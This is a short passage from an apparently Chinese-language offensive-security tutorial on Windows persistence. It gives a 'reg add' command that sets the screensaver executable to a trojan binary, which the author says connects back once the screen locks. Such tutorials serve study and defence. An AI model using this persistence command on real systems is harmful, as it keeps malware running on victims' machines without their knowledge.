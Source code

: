 但是我这里看了一下，我的注册表中好像是没有这个程序的，莫名其妙的，不过我发现可以自己添加。

![image-20230817122734261](assets/image-20230817122734261.png)

### 6.3.2. 修改注册表

这里修改完也相当于就添加了一个木马。

```
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "C:\1\3000.exe" /f
```

![image-20230817123127957](assets/image-20230817123127957.png)

### 6.3.3. 查看效果

这里进行锁屏后就可以看到成功上线了。
